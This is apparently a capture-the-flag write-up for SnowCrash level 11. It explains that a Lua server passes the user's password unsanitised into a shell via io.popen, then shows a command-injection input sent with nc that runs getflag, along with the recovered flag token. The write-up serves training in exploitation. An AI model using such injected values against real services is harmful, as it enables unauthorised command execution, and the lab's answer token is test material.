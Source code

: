 # Level11

We have a lua script which runs a server on port `5151`
Asks for a password and compare the hash which a predefined hash.
But the hash is produced with `io.popen("echo "..pass.." | sha1sum", "r")`
So we can probably insert a commmand in the `pass`.

```shell
level11@SnowCrash:~$ nc localhost 5151
Password: test; getflag > /tmp/level11.flag
Erf nope..
level11@SnowCrash:~$ cat /tmp/level11.flag
Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s
```